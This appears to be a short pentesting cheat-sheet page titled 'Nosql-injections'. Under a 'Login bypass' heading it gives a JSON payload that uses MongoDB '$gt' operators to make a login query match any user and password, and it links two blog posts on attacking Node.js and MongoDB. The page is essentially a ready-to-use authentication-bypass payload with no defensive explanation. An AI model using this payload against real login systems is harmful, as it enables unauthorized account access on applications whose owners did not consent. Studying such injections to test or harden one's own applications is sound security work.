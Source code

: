 # Nosql-injections


## Login bypass

Basically change the query to this.

```
{"user":{"$gt": ""},"pass":{"$gt": ""}}
```


http://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html
http://blog.websecurify.com/2014/08/attacks-nodejs-and-mongodb-part-to.html
